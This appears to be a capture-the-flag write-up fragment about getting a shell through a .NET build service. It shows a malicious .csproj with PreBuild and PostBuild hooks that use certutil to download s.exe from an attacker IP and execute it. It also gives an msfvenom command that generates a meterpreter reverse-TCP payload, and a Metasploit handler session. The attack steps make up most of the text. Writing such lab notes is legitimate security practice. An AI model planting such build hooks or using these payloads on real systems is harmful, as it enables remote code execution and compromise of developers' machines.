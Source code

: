Create a new C# web console dot6.0 project. Any hello world project is fine.
`dotnet new console -n HelloWorldApp`

`└─#  git --bare update-server-info
`
commit changes. and then add my shell on it 

All of these not work.
trying another method
`We currently support .NET 6.0 and C# programs, so make sure your Git Repo includes a .sln file for successful compilation. Trust Visual to simplify and streamline your project compilation process like never before.`
recreate a .net repo
```
dotnet new sln -o Repo
cd Repoe
dotnet new console -o Repo.ConsoleApp --framework net6.0
dotnet sln Repo.sln add Repo.ConsoleApp/Repo.ConsoleApp.csproj
```

Now access to the directory and ask chatGPT to create a hello world program in C#
```
namespace Program
{
 public class Program
 {
  public static void Main(string[] args)
  {
   Console.WriteLine("Hello world");
  }
 }
}
```
Then we will create the post build `Repo.ConsoleApp.csproj`
```
<Target Name="PreBuild" BeforeTargets="PreBuildEvent">
  <Exec Command="certutil -urlcache -f http://10.10.14.5:4243/s.exe %temp%/s.exe" />
</Target>

<Target Name="PostBuild" AfterTargets="PostBuildEvent">
  <Exec Command="start %temp%/s.exe" />
</Target>
```

Let's generate a shell and start the listener
`└─# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.62 LPORT=1337 -f exe > s.exe`

```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lport 1337
lport => 1337
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.15.62:1337 


```
